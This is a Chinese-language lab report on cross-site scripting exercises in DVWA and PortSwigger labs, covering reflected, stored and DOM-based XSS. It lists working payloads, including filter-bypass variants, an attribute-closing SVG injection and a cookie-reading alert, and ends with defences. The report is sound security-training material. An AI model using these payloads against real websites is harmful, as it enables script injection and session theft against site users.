# XSS 跨站脚本攻击：反射型、存储型、DOM型 全类型实验报告


> 本报告涵盖 DVWA 靶场（反射型/存储型）与 PortSwigger Web Security Academy（反射型/存储型/DOM型）的 XSS 漏洞复现记录，系统梳理三种 XSS 类型的原理、利用手法与防御思路。


## 目录


1. [XSS 概述](#1-xss-概述)

2. [反射型 XSS（Reflected XSS）](#2-反射型-xssreflected-xss)

- 2.1 DVWA 反射型 XSS 实战

- 2.2 PortSwigger 反射型 XSS 实验室

3. [存储型 XSS（Stored XSS）](#3-存储型-xssstored-xss)

- 3.1 DVWA 存储型 XSS 实战

- 3.2 PortSwigger 存储型 XSS 实验室

4. [DOM型 XSS（DOM-based XSS）](#4-dom型-xssdom-based-xss)

- 4.1 DVWA DOM型 XSS 实战

- 4.2 PortSwigger DOM型 XSS 实验室

5. [XSS 核心知识点总结](#5-xss-核心知识点总结)


---


## 1. XSS 概述


| 类型 | 触发位置 | 数据流向 | 危害程度 |
| ------ | --------- | --------- | ---------- |
| **反射型 XSS** | URL 参数 | 前端 → 后端 → 前端（即时返回） | 中（需诱导点击） |
| **存储型 XSS** | 数据库持久化 | 前端 → 后端 → 数据库 → 所有访问者 | 高（持久化，影响所有用户） |
| **DOM型 XSS** | 前端 DOM 操作 | 前端 → 前端（不经过后端） | 中高（取决于 DOM 操作逻辑） |


> **核心差异**：反射型和存储型的 payload 会经过**服务器**；DOM型 payload **全程在客户端**，不经过服务器，抓包也看不到 payload。


---


## 2. 反射型 XSS（Reflected XSS）


**原理**：用户输入的内容被直接拼接到页面 HTML 中返回，未经过滤。攻击者构造恶意链接，诱导受害者点击，使受害者在自己的浏览器中执行恶意脚本。


---


### 2.1 DVWA 反射型 XSS 实战


**靶场地址**：`http://127.0.0.1/DVWA/vulnerabilities/xss_r/`


#### 手法一：经典 `<script>` 标签注入


**Payload**：

```html

<script>alert('XSS')</script>

```


**原理**：`<script>` 告诉浏览器将内部内容作为 JS 代码解析执行；`alert('XSS')` 触发弹窗。





#### 手法二：图片事件绕过（过滤 `<script>` 标签时使用）


**Payload**：

```html


```


**原理**：`src=x` 指向不存在的图片，加载失败触发 `onerror` 事件，执行 JS 代码。适用于服务端过滤了 `<script>` 但未过滤事件属性的场景。





#### 手法三：大小写绕过（仅过滤小写 `<script>` 时）


**Payload**：

```html

<ScRiPt>alert('XSS')</ScRiPt>

```


**原理**：HTML 标签不区分大小写，若后端只过滤小写 `<script>`，混合大小写可绕过。


#### 手法四：超链接伪协议


**Payload**：

```html

<a href="javascript:alert('XSS')">点我</a>

```


**原理**：`javascript:` 伪协议让点击链接时执行后面的 JS 代码。


#### 手法五：输入框自动聚焦事件


**Payload**：

```html

<input onfocus=alert('XSS') autofocus>

```


**原理**：`autofocus` 使输入框自动获取焦点 → 触发 `onfocus` 事件 → 执行 JS。


#### 反射型 XSS 特有 URL 传参形式


```url

http://127.0.0.1/DVWA/vulnerabilities/xss_r/?name=<script>alert(1)</script>

```


`?name=` 后的内容直接输出到页面，浏览器解析执行。


---


### 2.2 PortSwigger 反射型 XSS 实验室


**实验名称**：Reflected XSS into HTML context without encoding


**操作**：在搜索框输入 `<script>alert(1)</script>`，页面直接回显弹窗。






---


## 3. 存储型 XSS（Stored XSS）


**原理**：恶意脚本被存储在服务器端（如数据库），每当其他用户访问该页面时，脚本自动执行。危害远大于反射型。


---


### 3.1 DVWA 存储型 XSS 实战


**靶场地址**：`http://127.0.0.1/DVWA/vulnerabilities/xss_s/`


**Payload**（在 Name 或 Message 字段输入）：

```html

<script>alert(document.cookie)</script>

```





**验证持久化**：刷新页面或重新进入该模块，弹窗再次出现 → 证明已存入数据库。





**与反射型的区别**：

- 反射型：URL 中包含 payload（`?name=<script>`）

- 存储型：URL 中**不含** payload，数据从数据库读取





---


### 3.2 PortSwigger 存储型 XSS 实验室


**实验名称**：Stored XSS into HTML context without encoding


**操作**：进入一个帖子，在评论框输入 `<script>alert(1)</script>` 并提交，所有访问该帖子的用户都会触发弹窗。







---


## 4. DOM型 XSS（DOM-based XSS）


**原理**：payload **不经过服务器**，前端 JavaScript 直接使用用户可控的 URL 参数拼接 HTML，未转义导致代码执行。即使抓包也看不到 payload，因为 URL 改变但未触发新 HTTP 请求。


---


### 4.1 DVWA DOM型 XSS 实战


**靶场地址**：`http://127.0.0.1/DVWA/vulnerabilities/xss_d/`


#### 步骤一：发现 DOM 操作点


页面有一个选择语言的下拉框，点击 Select 后 URL 中出现参数 `?default=English`。





#### 步骤二：尝试三种 payload


**① 直接插入 `<script>`**：

```url

?default=<script>alert('XSS')</script>

```


**② 拼接在合法值后面**：

```url

?default=English<script>alert('XSS')</script>

```


**③ 闭合原有标签后注入**：

```url

?default=</option></select><script>alert('XSS')</script>

```


三种方式均成功弹窗。





**结论**：三条 payload 最终都在页面中生成了可执行的 `<script>` 标签，所以全弹窗。但**位置不同，过滤不同，能用的 payload 完全不一样**。


**DVWA 该页面的原始 HTML 结构**：

```html

<select>

&#x20; <option>English</option>

</select>

```


---


### 4.2 PortSwigger DOM型 XSS 实验室


**实验名称**：DOM XSS in document.write sink using source location.search


#### 尝试一：直接注入 `<script>`（失败）


```url

?search=<script>alert(1)</script>

```


**结果**：无效。查看源码发现 `document.write` 将内容拼入了 `` 属性中，`<script>` 在 `src` 属性内不会被解析。





源码中的关键代码：

```javascript

document.write('');

```


#### 尝试二：闭合属性 + SVG 事件（成功）


**Payload**：

```url

?search="><svg onload=alert(1)>

```


**原理**：

- `"` 闭合 `src` 属性的引号

- `>` 关闭 `` 标签

- `<svg onload=alert(1)>` — SVG 加载完成后自动触发 `onload` 事件





---


## 5. XSS 核心知识点总结


### 5.1 `<script>` 标签 vs 事件属性


| 语法 | 适用场景 | 特点 |
|------|---------|------|
| `<script>alert(1)</script>` | 直接注入到 HTML 空白位置 | 整块执行，最直接 |
| `` | `<script>` 被过滤时 | 依赖加载失败触发 |
| `<svg onload=alert(1)>` | 需要自动触发且空间有限时 | SVG 加载即触发，无需报错 |
| `<a href="javascript:alert(1)">` | 需要用户点击交互时 | 点击后执行 |
| `<input onfocus=alert(1) autofocus>` | 需要自动聚焦触发时 | 页面加载即触发 |


### 5.2 三种 XSS 类型判断方法


| 特征 | 反射型 | 存储型 | DOM型 |
|------|--------|--------|-------|
| payload 在 URL 中 | ✅ 可见 | ❌ 不可见 | ✅ 可见 |
| 经过服务器 | ✅ | ✅ | ❌ |
| 持久化存储 | ❌ | ✅ | ❌ |
| 抓包可见 payload | ✅ | ✅ | ❌ |
| 影响范围 | 单次点击 | 所有访问者 | 单次点击 |


### 5.3 防御思路


1. **输入过滤**：对用户输入进行严格校验，黑名单不够，建议白名单。

2. **输出编码**：根据上下文进行 HTML 实体编码、JS 编码、URL 编码。

3. **CSP（内容安全策略）**：限制页面可执行脚本的来源。

4. **HttpOnly Cookie**：防止 `document.cookie` 被恶意脚本读取。

5. **使用安全的 DOM API**：如 `textContent` 替代 `innerHTML`，避免直接拼接 HTML。


